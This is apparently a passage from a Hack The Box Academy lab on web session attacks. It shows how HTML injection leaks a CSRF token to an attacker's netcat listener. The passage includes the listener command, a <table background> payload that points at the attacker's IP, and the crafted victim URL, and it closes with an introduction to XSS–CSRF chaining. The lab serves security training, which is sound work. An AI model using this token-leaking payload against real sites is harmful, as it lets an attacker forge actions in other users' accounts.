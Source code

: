 ```html
<h1>h1<u>underline<%2fu><%2fh1>
```

![image](https://academy.hackthebox.com/storage/modules/153/37.png)

If you inspect the source (`Ctrl+U`), you will notice that our injection happens before a `single quote`. We can abuse this to leak the CSRF-Token.

![image](https://academy.hackthebox.com/storage/modules/153/39.png)

Let us first instruct Netcat to listen on port 8000, as follows.

&#x20; Cross-Site Request Forgery (POST-based)

```shell-session
root@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Now we can get the CSRF token via sending the below payload to our victim.

Code: html

```html
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

While still logged in as Julie Rogers, open a new tab and visit `http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f`. You will notice a connection being made that leaks the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/40.png)

Since the attack was successful against our test account, we can do the same against any account of our choosing.

We remind you that this attack does not require the attacker to reside in the local network. HTML Injection is used to leak the victim's CSRF token remotely!

Next, we will cover how you can chain XSS and CSRF to attack a user's session.



## XSS & CSRF Chaining

***

Sometimes, even if we manage to bypass CSRF protections, we may not be able to create cross-site requests due to some sort of same origin/same site restriction. If this is the case, we can try chaining vulnerabilities to get the end result of CSRF.

Let us provide you with a practical example.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`minilab.htb.net`) to access the application.
